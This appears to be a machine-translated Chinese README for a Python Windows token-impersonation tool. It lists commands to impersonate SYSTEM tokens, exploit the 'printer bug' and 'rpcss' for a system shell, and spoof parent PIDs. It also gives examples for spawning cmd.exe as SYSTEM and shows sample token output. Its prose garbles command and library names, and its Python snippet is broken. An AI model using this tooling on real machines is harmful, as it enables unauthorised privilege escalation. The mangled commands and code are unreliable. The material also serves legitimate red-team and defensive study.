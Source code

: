 ```
    printalltokensbypid  Print all tokens accessible from current thread by pid
    printsystemtokens    Print all system tokens accessible from current
    searchimpfirstsystem
                         search and impersonate first system token
    imppid               impersonate primary token of selected pid and try to spawn cmd.exe
    imptoken             impersonate primary or impersonation token of selected pid/handle and try to spawn cmd.exe
    printerbug           exploit the "printer bug" for getting system shell
    rpcss                exploit "rpcss" for getting system shell
    spoof                parent PID Spoofing ("handle inheritance)"
    impuser              create process with creds with impersonation
    runas                create process with creds as runas
    scm                  create process with Service Control Manager

optional arguments:
  -h, --help             show this help message and exit
  --version              show program's version number and exit
```

对于 **python 库**(名为*pyt pipe*)，参见源代码和示例。通常，我会很好地记录源代码…大部分功能都有记录。

关于 **pyinstaller 示例**和独立版本，参见 *src/examples/* 文件夹中的文件。

**例题**

如果你想知道如何使用 *pytimpe* 库，请看 *src/examples* 文件夹中的许多例子。

*   **例 1:获取 *nt 权限\系统***

冒充第一个*系统*令牌，从 python 客户端( *tmipe* )得到 cmd.exe 提示为*系统*:

**python . exe tmpe . py 搜索疫苗系统-vv**

要直接通过*pyt pipe*库做同样的事情，请参见*src/examples/searchandinpersonatefirsystemtoken . py*:

**from Impersonate Impersonate
from utils import configure logging

configure logging()
imp = Impersonate()
imp . searchandinpersonatefirstsystemtoken(target PID = None，printAllTokens=False)**

如果当前的 Windows 用户拥有所需的权限，它将打开一个 cmd.exe 提示符作为*系统*。

当然，从这个源代码中，你可以用 *pyinstaller* 创建一个独立的 exe。

*   **例 2:获取代币**

要获取当前进程中使用的主令牌和模拟令牌:

**python.exe tmipe . py printalltokes–当前–完整–链接**

*   **输出:**

```
- PID: 3212
------------------------------
  - PID: 3212
  - type: Primary (1)
  - token: 764
  - hval: None
  - ihandle: None
  - sid: S-1-5-18
  - accountname: {'Name': 'SYSTEM', 'Domain': 'NT AUTHORITY', 'type': 1}
  - intlvl: System
  - owner: S-1-5-32-544
  - Groups:
    - S-1-5-32-544: {'Name': 'Administrators', 'Domain': 'BUILTIN', 'type': 4} (ENABLED, ENABLED_BY_DEFAULT, OWNER)
    - S-1-1-0: {'Name': 'Everyone', 'Domain': '', 'type': 5} (ENABLED, ENABLED_BY_DEFAULT, MANDATORY)
```